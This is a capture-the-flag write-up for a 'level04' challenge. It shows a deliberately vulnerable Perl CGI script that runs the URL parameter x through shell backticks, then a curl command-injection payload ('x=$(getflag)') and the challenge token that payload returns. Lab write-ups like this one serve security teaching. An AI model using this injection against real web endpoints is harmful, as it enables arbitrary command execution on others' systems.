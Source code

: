 # Level04 Documentation

## Objective
Exploit a vulnerable Perl CGI script to retrieve the token for `level05` via command injection.

## Approach & Tools
- **Technique**: Server-side command injection through URL parameters.
- **Commands**: `curl`.
- **Tools**: Basic web request analysis.

## Step-by-Step Solution
When we login as level04 user we get a file named level04.pl which is a (perl)[https://www.perl.org/] script.
```bash
ls -la /home/user/level04/
```
#### Output:
```bash
-rwsr-sr-x  1 flag04  level04  152 Mar  5  2016 level04.pl
```

### 1. Analyze the Perl Script
The script `level04.pl` runs a web server on port `4747`:
```perl
#!/usr/bin/perl
# localhost:4747
use CGI qw{param};
print "Content-type: text/html\n\n";
sub x {
  $y = $_[0];
  print `echo $y 2>&1`;
}
x(param("x"));
```
Key Vulnerability: The echo $y command uses unvalidated input from the URL parameter x.
### 2. Exploit Command Injection

Use curl to inject getflag into the x parameter:
```bash
curl 'localhost:4747/?x=$(getflag)'
```
#### Output:

Check flag.Here is your token : ne2searoevaevoem4ov4ar8ap

### Key Takeaways

* Command Injection: Unsanitized input in system commands is a critical vulnerability.

* CGI Risks: Web scripts using system() or backticks with user input  are prone to exploitation.

* Input Validation: Always sanitize user inputs in web applications.